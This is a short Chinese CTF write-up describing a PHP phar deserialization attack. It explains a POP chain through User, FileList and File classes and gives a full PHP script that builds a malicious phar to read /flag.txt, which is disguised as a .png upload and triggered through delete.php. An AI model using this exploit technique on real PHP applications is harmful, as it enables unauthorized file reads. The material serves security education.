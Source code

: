 2.思路是构造pop链，User类中存在close方法，并且该方法在对象销毁时执行。

同时FileList类中存在call魔术方法，并且类没有close方法。

如果一个Filelist对象调用了close()方法，根据call方法的代码可以知道，文件的close方法会被执行，就可能拿到flag。

如果能创建一个user的对象，其db变量是一个FileList对象，对象中的文件名为flag的位置。这样的话，当user对象销毁时，db变量的close方法被执行；而db变量没有close方法，这样就会触发call魔术方法，进而变成了执行File对象的close方法。通过分析FileList类的析构方法可以知道，close方法执行后存在results变量里的结果会加入到table变量中被打印出来，也就是flag会被打印出来。

3.生成phar，利用//phar:伪协议读取flag，运行下列php文件，生成phar文件

```
<?php

class User {
    public $db;
}

class File {
    public $filename;
}
class FileList {
    private $files;
    private $results;
    private $funcs;

    public function __construct() {
        $file = new File();
        $file->filename = '/flag.txt';
        $this->files = array($file);
        $this->results = array();
        $this->funcs = array();
    }
}

@unlink("phar.phar");
$phar = new Phar("phar.phar"); //后缀名必须为phar

$phar->startBuffering();

$phar->setStub("<?php __HALT_COMPILER(); ?>"); //设置stub

$o = new User();
$o->db = new FileList();

$phar->setMetadata($o); //将自定义的meta-data存入manifest
$phar->addFromString("exp.txt", "test"); //添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

4. 修改后缀为png，上传成功后，利用delete.php读取源码
